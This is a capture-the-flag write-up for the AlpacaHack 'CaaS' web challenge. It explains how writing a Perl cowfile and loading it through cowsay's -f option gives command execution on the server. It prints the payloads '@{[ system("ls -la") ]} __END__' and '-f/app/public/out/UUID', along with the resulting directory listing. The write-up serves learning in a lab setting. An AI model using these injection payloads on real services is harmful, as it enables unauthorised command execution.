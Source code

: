 ```yaml
---
title: "AlpacaHack Round 2 (Web) - CaaS (Cow as a Service)"
date: "2024-11-06"
tags:
  - writeups
  - ctf
  - perl
  - command injection
toc: true
math: true
bold: true
nomenu: false
---
```


## Overview

I've initially thought that this is a JavaScript command injection challenge, since that we have the flag located at the root and we have a binary that is being executed (`/usr/games/cowsay`). I began to read the documentation of [google/zx](https://github.com/google/zx), but after a while I didn't find anything that could lead to command injection.

Then I've started to explore the binary itself `/usr/games/cowsay`, I also setup a verbose output for `ZX` as I've read the documentation.

```js
await $({
    verbose: true,
    cwd: "public/out",
    timeout: "2s",
})`/usr/games/cowsay ${message} > ${uuid}`;
```

I've read the [manpage for the binary](https://linux.die.net/man/1/cowsay), where I've noticed few options:

- cowsay [-e eye_string] [-f cowfile] [-h] [-l] [-n] [-T tongue_string] [-W column] [-bdgpstwy] 

I've exprimeneted a bit with the `-eTW` options but that yielded nothing, then I've tried the `-l` and `-f` options. The `-l` option lists
the cowfiles located in `/usr/share/cowsay/cows/*.cow` those are templates for the `cowsay`. Since that we can write a file to `/app/public/out/*` I thought that we can create a cow file that would list the root directory, so I've went to see what are the specifications of that cowfile.

I've explored few github projects with additional templates for cowsay and how they are structured, here is an example template:

```
##
## acsii picture from http://www.ascii-art.de/ascii/ab/bear.txt
##
$eye = chop($eyes);
$the_cow = <<EOC;
 $thoughts
  $thoughts
     .--.              .--.
    : (\\ ". _......_ ." /) :
     '.    `        `    .'
      /'   _        _   `\\
     /     $eye}      {$eye     \\
    |       /      \\       |
    |     /'        `\\     |
     \\   | .  .==.  . |   /
      '._ \\.' \\__/ './ _.'
      /  ``'._-''-_.'``  \\
EOC
```

And as the man page says `A cowfile is made up of a simple block of perl(1) code`, so we can write a perl to the `/out` directory and try to execute it with `-f` option.

But since that we have bunch of symbols before the text we control like:

```
 _______________
< waht the fuck >
 ---------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

I wasn't sure that if this file is going to run (it didnt). 

```
web-1  | $ /usr/games/cowsay -f/app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 > e50643f3-8ffe-4772-bab7-3896acbeb65b
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 5, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | Backslash found where operator expected at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6, near ")\"
web-1  |        (Missing operator before \?)
web-1  | cowsay: Search pattern not terminated at /app/public/out/fe6bbc8f-3965-4a89-9d47-593bcd1832b6 line 6.
```

> Note: I didn't use Burp/Caido, I just went to the input field and placed my payloads.

So I went to see if there are stuff like string formats in Perl, and I found the weirdly named [Baby cart](https://metacpan.org/pod/perlsecret#Baby-cart) for interpolation. And I've tried with it with the following payload.

```
@{[ system("ls -la") ]}
```

And I've done it, I made the perl to error again. Now I was at a dead end and I got little help with it, I discovered the `__END__` bullshit, now this is a special Perl literal that ends the script and that was the thing that I was missing. So in the end the payload became:

```
@{[ system("ls -la") ]} __END__
```

And then I would get the UUID and use it again as

```
-f/app/public/out/UUID
```

To get the output:

```
total 1072
drwxrwxrwt 1 root root 32768 Nov  7 09:24 .
drwxr-xr-x 1 root root  4096 Nov  7 06:56 ..
-rw-r--r-- 1 root root     0 Aug 25 11:38 .gitkeep
-rw-r--r-- 1  404  404    13 Nov  7 07:52 011869a0-aaf5-47e2-b6da-7d9bbb82f567
-rw-r--r-- 1  404  404    13 Nov  7 07:25 014eb95c-17f2-45bd-85df-c7714a14e68e
-rw-r--r-- 1  404  404   175 Nov  7 08:30 028ad084-a645-4ef5-b0de-8e8516b2aab6
-rw-r--r-- 1  404  404    13 Nov  7 07:40 02cdb7a8-8d39-494b-84cc-860ee5dd7f3f
<ANOTHER 30k UUID>
 __
<  >
 --
```

And then we can simply `cat` the flag.

> Note: You don't even need the weirdly  named stuf in "Perl secret operators and constants", because it turns out that this is not even in perl itself, thanks to the users of StackOverflow that are always suggesting 3rd party solutions to simple things!